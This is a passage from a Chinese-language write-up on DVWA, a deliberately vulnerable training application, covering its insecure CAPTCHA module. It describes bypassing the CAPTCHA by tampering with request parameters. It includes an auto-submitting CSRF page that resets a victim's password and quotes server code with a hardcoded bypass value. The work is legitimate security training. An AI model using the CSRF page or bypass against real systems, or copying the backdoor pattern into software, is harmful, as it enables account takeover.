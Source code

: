 **可以通过抓包,更改 step 参数,增加 passed_captcha 参数,绕过验证码.**

![](../../../../../assets/img/安全/实验/Web/靶场/dvwa/dvwa39.png)

**CSRF**

依然可以实施 CSRF 攻击,攻击页面代码如下.
```
<html>

<body onload="document.getElementById('transfer').submit()">

  <div>

    <form method="POST" id="transfer" action="http://<IP地址!!!>/dvwa/vulnerabilities/captcha/">

		<input type="hidden" name="password_new" value="password">

		<input type="hidden" name="password_conf" value="password">

        <input type="hidden" name="passed_captcha" value="true">

		<input type="hidden" name="step" value="2"

		<input type="hidden" name="Change" value="Change">

	</form>

  </div>

</body>

</html>
```

### High

**服务器端核心代码**
```php
<?php

if( isset( $_POST[ 'Change' ] ) ) {
	// Hide the CAPTCHA form
	$hide_form = true;

	// Get input
	$pass_new  = $_POST[ 'password_new' ];
	$pass_conf = $_POST[ 'password_conf' ];

	// Check CAPTCHA from 3rd party
	$resp = recaptcha_check_answer(
		$_DVWA[ 'recaptcha_private_key' ],
		$_POST['g-recaptcha-response']
	);

	if (
		$resp || 
		(
			$_POST[ 'g-recaptcha-response' ] == 'hidd3n_valu3'
			&& $_SERVER[ 'HTTP_USER_AGENT' ] == 'reCAPTCHA'
		)
	){
		// CAPTCHA was correct. Do both new passwords match?
		if ($pass_new == $pass_conf) {
```